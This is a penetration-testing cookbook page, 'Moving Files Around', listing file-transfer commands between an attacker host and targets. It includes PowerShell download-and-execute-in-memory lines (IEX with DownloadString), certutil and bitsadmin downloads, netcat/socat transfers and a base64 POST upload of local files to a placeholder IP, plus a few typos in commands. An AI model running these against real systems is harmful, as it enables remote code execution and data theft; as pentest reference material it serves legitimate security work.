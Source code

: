 ```yaml
---
layout: default
title: Moving Files Around
parent: COOKBOOKS
has_children: false
has_toc: false
---
```


{% include toc.html %}

Ports `80` and `443` are a good starting point.

## Local web server
```
// Python 2
python -m SimpleHTTPServer

// Python3
python3 -m http.server
python3 -m http.server <port>
python3 -m http.server --bind 172.x.x.x 443
python3 -m http.server --bind 172.x.x.x --directory tools/ 443
```

See [this link](https://floatingoctothorpe.uk/2017/receiving-files-over-http-with-python.html) for creating a `http.server` that accepts `PUT` requests. Use with something like:

```
curl -X PUT -T file-to-upload http://<IP>:<port>/
```


## Local FTP server
```
// Python 3
python3 -m pyftpdlib
python3 -m pyftpdlib --interface=172.x.x.x -p4433
python3 -m pyftpdlib --interface=172.x.x.x -p4433 -username=user --password='pass' --directory=tools/ --verbSMB server
```

## Local SMB server
```
Main issue is trying to bind Windows to a non-standard port number. Running on the standard port requires sudo which is a pain.
// Sudo required for access to lower port.
sudo impacket-smbserver -username user -password pass -smb2support Shared tools/

// Sudo not required for higher port, this proves troublesome for Windows though.
impacket-smbserver -username user -password pass -port 4343 -smb2support Shared tools/
```

## Netcat
Note there are multiple implementations of Netcat: netcat, ncat and nc to name a few.

```
// On sender.
nc -q0 10.x.x.x 4343 < file.in
compress -c file.in | nc -q0 10.x.x.x 4343

// On receiver.
nc -lp 4343 > file.out
nc -lp 4343 | uncompress > file.out
```

## Socat
```
// On sender.
socat -u FILE:file.in TCP:10.x.x.x:4343

// On receiver.
socat -u TCP-LISTEN:4343 OPEN:file.out,creat,trunc
```

## Secure Copy
Assumes ssh access.

```
// Copy file from target to local folder.
scp user@10.x.x.x:file.in /local/folder/

// Copy directory from target to local folder.
scp -r user@10.x.x.x:/remote/folder /local/folder/

// Copy local file to remote target.
scp file.local user@10.x.x.x;/remote/folder/

// Copy local folder to remote target.
scp -r /local/folder/ user@10.x.x.x /local/folder/

// Copy remote file to remote target.
scp from-user@10.x.x.x:/source/folder/ to-user@10.y.y.y:/dest/folder/ 
```

## PowerShell
### DownloadString
```
// Download and execute in memory using Invoke-Expression (IEX).
IEX(New-Object Net.WebClient).DownloadString('http://10.x.x.x:80/resource.ps1')

// Download and execute in memory using IEX.
(New-Object Net.WebClient).DownloadString('http://10.x.x.x:80/resource.ps1') | IEX
```

### DownloadFile
```
// Download and save file locally.
(New-Object Net.WebClient).DownloadFile('http://10.x.x.x:80/resource.ps1', "C:\Users\Public\Downloads\resource.ps1")
```

### Invoke-WebRequest
```
// Download.
Invoke-WebRequest http://10.x.x.x:80/resource.ps1 -OutFile resource.ps1

// Download and execute in memory.
Invoke-WebRequest http://10.x.x.x:00/resource.ps1 | IEX

// Download, ignore IE not having been run errors
Invoke-WebRequest http://10.x.x.x:80/resource.ps1 -UseBasicParsing | IEX

// Upload to POST enabled HTTP server.
$data = [System.Convert]::ToBase64String((Get-Content -Path 'C:\Users\Public\Downloads\dir.txt' -Encoding Byte))
Invoke-WebRequest -Uri http://10.x.x.x:80 -Method POST -Body $data
```

## Windows certutil.exe
```
// Windows wget equivalent.
certutil -urlcache -f http://10.x.x.x:port/file.ext outfile.exe
```

## Windows BITS
```
// Download resource from web server or SMB share.
bitsadmin /transfer n http://10.x.x.x:443/file.exe C:\Users\Public\Downloads\file.exe
```

## Evil-WinRM
```
// Upload local file to remote.
*Evil-WinRM* PS C:\> Upload local.file remote.file

// Download remote file to local.
*Evil-WinRM* PS C:\> Download remote.file local.file
```

## Misc
If you have a shell, conver them to `base64` and copy/paste between windows.

